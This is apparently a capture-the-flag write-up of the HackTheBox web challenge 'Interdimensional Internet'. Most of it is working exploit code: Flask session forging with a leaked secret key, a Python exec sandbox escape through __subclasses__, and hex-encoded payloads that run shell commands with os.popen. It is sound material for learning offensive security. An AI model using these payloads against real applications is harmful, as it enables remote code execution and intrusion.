


- [Interdimensional Internet](#interdimensional-internet)
  - [The site](#the-site)
  - [Looking under the hood](#looking-under-the-hood)
  - [Source code](#source-code)
    - [Secret Key](#secret-key)
    - [Hacking the session token with flask-unsign](#hacking-the-session-token-with-flask-unsign)
    - [Entry point](#entry-point)
    - [Bypassing the forbidden characters](#bypassing-the-forbidden-characters)
    - [Payload building](#payload-building)
  - [More info about the payload](#more-info-about-the-payload)
    - [Payload to big](#payload-to-big)

# Interdimensional Internet
| Type | Difficulty | Points | Site       | Author    | Solved    |
| ---- | ---------- | ------ | ---------- | --------- | --------- |
| Web  | Medium     | 30     | HackTheBox | makelaris | 28.2.2022 |

## The site
We visited the web site through any browser. And it looked like this.
  
___
## Looking under the hood
Nothing special. After refreshing the site multiple time I saw that the numbers are changing. So I went and took a look under the hood (CTRL + SHIFT + I on Firefox). And I saw something interesting.  

___
## Source code
So I visited the directory and voila. La Sauce Code!
```python
from flask import Flask, Response, session, render_template
import functools, random, string, os, re

app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY', 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw')

def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass

def GFW(func): # Great Firewall of the observable universe and it's infinite timelines
    @functools.wraps(func)
    def federation(*args, **kwargs):
        ingredient = session.get('ingredient', None)
        measurements = session.get('measurements', None)

        recipe = '%s = %s' % (ingredient, measurements)
        if ingredient and measurements and len(recipe) >= 20:
            regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
            matches = regex.findall(recipe)
            
            if matches: 
                return render_template('index.html', blacklisted='Morty you dumbass: ' + ', '.join(set(matches)))
            
            if len(recipe) > 300: 
                return func(*args, **kwargs) # ionic defibulizer can't handle more bytes than that
            
            calc(recipe)
            # return render_template('index.html', calculations=garage[ingredient])
            return func(*args, **kwargs) # rick deterrent

        ingredient = session['ingredient'] = ''.join(random.choice(string.lowercase) for _ in xrange(10))
        measurements = session['measurements'] = ''.join(map(str, [random.randint(1, 69), random.choice(['+', '-', '*']), random.randint(1,69)]))

        calc('%s = %s' % (ingredient, measurements))
        return render_template('index.html', calculations=garage[ingredient])
    return federation

@app.route('/')
@GFW
def index():
    return render_template('index.html')
 
@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run('0.0.0.0', port=1337)
```

### Secret Key
So the first thing that caught my eye was the secret key. In flask if you have the secret key you can sign your own sessions so I thought thats what the challenge wanted from me.

I looked around and saw that two variables were "made" using the session. Ingredient and measurements.
```python
ingredient = session.get('ingredient', None)
measurements = session.get('measurements', None)
```
Those two were then put together into a recipe.  
And then checked for forbidden characters: `'['`, `'('`, `'_'`, `'.'`.
```python
recipe = '%s = %s' % (ingredient, measurements)
#One more line that checks if its over or equal to 20 but that doesn't matter
regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
matches = regex.findall(recipe)
```

### Hacking the session token with flask-unsign
[Flask unsign](https://pypi.org/project/flask-unsign/) is a great tool for fetching, decoding, and brute-forcin flask applications secret keys. So that's why I used it.

I first took the stored session and decoded it with the bellow command.
I stored the token in a variable named token.  
`flask-unsign --decode --cookie $token`  
And got an output of random string of letters and a random number.  
`{'ingredient': b'aasdadavaw', 'measurements': b'1+1'}`

I then modified the token so it overflowed and was bigger than 300 to get an error.
`flask-unsign --sign --cookie $cookie`
And woila. Morty the dumbass.  


### Entry point
Now I knew I can modify the token. Now just where to use this.
Well lets take a look at the function `calc`. 
```python
def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass
```
It takes the recipe and puts it into exec with the __builtins__ module.
But wait isn't that dangerous? A small google search with exec builtins none will tell you YES!  
https://stackoverflow.com/questions/59482234/is-an-execstring-builtins-none-a-secure-way-to-execute-user-inpu  
And heres the payload.
```python
s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('shellcode')"
exec(s, {'builtins': None})
```
Ok thats good. Well not really. Because builtins are set to none we have no Built in functions. So no import.  
My precious import, much sadge :'(  
Ok so lets try putting another exec inside the exec.
So the command that is going to be executed would look like this:
```python
exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings\\"][0]()._module.__builtins__["__import__"];i(\\"os\\").system("'+command+'\\")\'#'
```

### Bypassing the forbidden characters
So now we need to bypass the forbidden characters.
Ok lets just hex encode them.
| Char | Hex |
| ---- | --- |
| .    | x2e |
| _    | x5f |
| [    | x5b |
| (    | x28 |
Ok so now we can finally build the payload.

### Payload building
So first we take our payload and we hex encode it.

```python
def payload_com(command):
    value = [".", "_", "[","\'","("]
    hex_val = ['\\\\\\\\x2e', '\\\\\\\\x5f', '\\\\\\\\x5b', '\\\'','\\\\\\\\x28']
    #v1 too big
    string = 'exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == \\"catch_warnings\\"][0]()._module.__builtins__[\\"__import__\\"];i(\\"os\\").system(\\"'+command+'\\")\'#'
    #v2 just right. And uses the flask session and popen read to return the value of the command
    string = 'exec\'i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__[\\"__import__\\"];i(\\"flask\\").session[\\"x\\"]=i(\\"os\\").popen(\\"'+command+'\\").read()\'#'
    for i in range(len(value)):
        string = string.replace(value[i], hex_val[i])
    return string
```
[More info about the payload](#more-info-about-the-payload)

Why so many slashes you ask? Well every time we use the command the slashes are halved. They're halved when we take the command and we put it into our flask-unsign and halved on the server side and halved when we `for i in range` the values.
I also modified the payload so it can be used with flask-unsign. I just put the whole command inside the terminal until it wasn't red anymore.

Then we make a session token and use the `os.popen` to execute the command.
```python
payload = payload_com(com)
session_token_generation_command = "flask-unsign --sign --cookie \"{'ingredient': b'"+payload+"', 'measurements': b'1+1'}\" --secret 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw'"
session_token = os.popen(session_token_generation_command).read().strip()
```
Then we send the cookie to the server.
```python
result_request = requests.get(host, cookies={'session':session_token})
```
And we get a new cookie back which we named x. And decode it with flask-unsign. And offcorse popen the command. And print.
```python
new_cookie = result_request.headers["Set-Cookie"].split("=")[1].split(";")[0]
ses_tok_dec_command = "flask-unsign --decode --cookie {}".format(new_cookie)
decoded = os.popen(ses_tok_dec_command).read().strip()
print(decoded)
```
Then we run the command and we search for the flag with ls.
But watch out you cant really cat out the really loooooooong flaaaaaak because its too long.
So you just use some Linux Magic and do `cat total*` and theres your flag.
___
## More info about the payload
### Payload to big
Ok so the payload was to big. Around 340 characters. To much ma boy.
So then I fired up my terminal python and looked at what it really does.
So i found out that this part iterates through the subclasses and searches for catch_warnings.
Well surely we can minimize that. Well yes.
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]
```
I just took a look at the subclasses. Printed out the indexes and the names until I found the catch_warnings subclass. Its the 59. So now we can easily shorten the payload to this:
```python
().__class__.__base__.__subclasses__()[59]
```
Damn almost half the length.

Also the os system doesn't return any output. Nada. Zilch. So that's why I used popen read.